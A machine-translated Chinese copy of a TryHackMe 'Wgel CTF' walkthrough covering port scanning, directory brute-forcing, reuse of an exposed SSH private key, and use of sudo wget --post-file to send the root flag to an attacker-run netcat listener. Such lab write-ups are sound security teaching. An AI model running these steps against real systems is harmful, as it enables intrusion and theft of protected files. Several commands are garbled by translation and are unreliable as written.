# TryHackMe- Wgel CTF 报道(详细)

> 原文：<https://infosecwriteups.com/tryhackme-wgel-ctf-writeup-detailed-ce5ff04a718d?source=collection_archive---------0----------------------->



CTF 报道#6

欢迎各位！！我们将在 TryHackMe 上做 CTF。我必须说，这是一个初级水平的盒子，非常有趣。你也会从中获得乐趣的。

 [## 特里哈克姆|威格尔·CTF

### TryHackMe 是一个学习和教授网络安全的在线平台，全部通过您的浏览器完成。

tryhackme.com](https://tryhackme.com/room/wgelctf) 

在 CTF 目录中创建一个 CTF 目录和一个 nmap 目录，然后我们开始！



盒子是 boot2root。我们需要提交用户和根标志。



让我们开始吧！享受流动吧！

Nmap 扫描:

> *nmap-sC-sV-oN nmap/root me<MACHINE _ IP>*

*   -sC:默认脚本
*   -sV:版本检测
*   -oN:输出将存储在您之前创建的目录“nmap”中



有 2 个端口打开:
22/ssh-OpenSSH 7.2 p2
80/http-Apache httpd 2 . 4 . 18
检测到 OS-Linux

Gobuster:

> gobuster dir -u http:// <machine_ip>-w<path_to_wordlist></path_to_wordlist></machine_ip>

*   -u : URL
*   -w:单词表



太好了。我们在 gobuster 输出中发现了一个目录/站点地图。我将再次启动 gobuster 来搜索/sitemap 目录中的目录。



## Nikto:

只是另一个工具，用于查找运行在端口 80 上的 web 服务器上的漏洞。它可能会也可能不会给出重要/有趣的信息，但是将该工具作为方法的一部分来运行总是好的。

> nikto -h<target_ip></target_ip>



导航到 http://<target_ip></target_ip>



检查页面的源代码，寻找任何对我们的枚举过程有帮助的有趣信息总是好的。
查看 URL 页面的来源。Ctrl+U



厉害！！
我们有一个潜在的用户名:
xxxxxx

如果我们以后需要强行进入服务，用户名将会帮助我们。我们将记下它，并继续我们的计数过程。

接下来，我们可以导航到 http:// <target_ip>/sitemap</target_ip>



我们将简单地导航到所有页面并搜索任何其他信息。

在/sitemap/about.html 上发现了一个动画视频。看不看对生根没有任何帮助，但我看了。



似乎我们已经浏览了所有页面，除了一个潜在的用户名之外，没有发现任何隐藏/奇怪/有趣/重要的内容。

我说我们没有完全枚举盒子怎么样。我这么说是什么意思？我的意思是，当我们在运行于特定端口(例如本框中的端口 80)的 web 服务器上搜索目录时，在开始搜索之前，我们必须始终考虑两点。
1。我们需要一个工具来为我们工作，例如 gobuster、dirbuster、dirb
2。我们希望选择一个合适的单词列表，例如 fasttrack.txt、common.txt、directory-list-2.3-medium.txt 等。

我非常喜欢 gobuster，它是我的方法的一部分，但它不会总是完全准确，因为可能存在目录，但你使用的单词列表不包含可以找到这些目录的单词。换句话说，有时尝试不同的单词表或不同的工具会显示不同的结果。因此，我觉得我们应该用另一个词汇表尝试另一个工具，寻找一些我们以前没有发现的东西。令人惊讶的是，它确实有效，因为我发现了一个目录/。ssh 使用 dirb 而不是 gobuster。



太棒了。！工具 dirb 使用 common.txt wordlist 为我们完成了这项工作。

我们现在将继续并导航到 <target_ip>/sitemap/。嘘</target_ip>



点击 id_rsa，你会看到 rsa 私钥。



复制密钥，将其保存在文本编辑器中，并将其移动到您的 CTF 文件夹中。或者，Ctrl+S 也会为您保存密钥。



我们在 CTF 文件夹里有 id_rsa 文件。在我们使用 id_rsa 文件通过 ssh 连接到用户之前，我们总是给予它 600 个密钥权限，这一点很重要。

> Chmod 600 (chmod a+rwx，u-x，g-rwx，o-rwx)设置权限，这样，(U)ser / owner 可以读，可以写，不能执行。(G)鲁普不能读，不能写，也不能执行。(O)有些人不能读，不能写，也不能执行。

让我们以用户身份使用 ssh 的密钥，看看我们是否能够获得访问权。祈祷吧。



做得好！！
我们已经成功进入了！！
我们现在要猎用户旗了。

超级简单的方法是使用 find 命令:

> 查找/-键入 f -name *。txt
> /:搜索整个文件系统
> -type f:类型为文件
> -name:指定搜索的文件名称
> *。txt:搜索所有带有扩展名的文件。文本文件（textfile）



太棒了。我们已经找到了用户标志，它在文档目录中。

导航到它，并“猫”到它，以获得我们的用户标志。

太棒了。！我们现在要做什么？你认为这是对的。我们必须提升我们的特权成为根，并得到我们的最终根标志，以结束这个盒子。

我们将使用命令:sudo -l 来查看被授予 root 权限来执行的任何命令/二进制文件。



事实上，在/usr/bin 中有 wget 二进制文件，它具有 SUID 权限，我们将尝试使用它来提升权限。

我的第一个任务是去[https://gtfobins.github.io/](https://gtfobins.github.io/)寻找提升权限的可能的权限提升命令。
在搜索栏中搜索 wget。



您在上面看到的命令基本上可供我们运行，以便上传或发布文件，并将文件中的内容上传到服务器上。

我们知道，在 CTFs 中，根标志通常位于/root 文件夹中，成为根并获得根标志是一项主要任务。但是对于我们将应用的方法，它将使用 wget 二进制文件将文件(即根标志)发布到我们的主机上，并简单地使用 netcat 进行端口连接。
让我们在端口 9001 上启动一个 netcat 监听器，或者选择您的任何选项。



回到我们的目标机器，我们将运行命令:

> sudo wget—post-file =/root/root _ flag . txt<host_ip>:</host_ip>



检查您的 netcat 监听器，看看它是否给出任何输出。



瞧啊。！
那真是超级有趣！！
我们成功拿到了我们的根旗！！
这个方法没有给根特权，但是我们得到了标志，所以一切都做得很好很容易。太棒了！！



恭喜你！！我们已经完成了房间！！

如果你喜欢这个帖子，并且这个帖子在任何可能的方面帮助了你，请在评论中告诉我，或者用掌声分享你的爱。

谢谢你抽出时间。

跟着我。

更多的报道正在进行中。

保重，注意安全，继续黑！

**-哈桑·谢赫**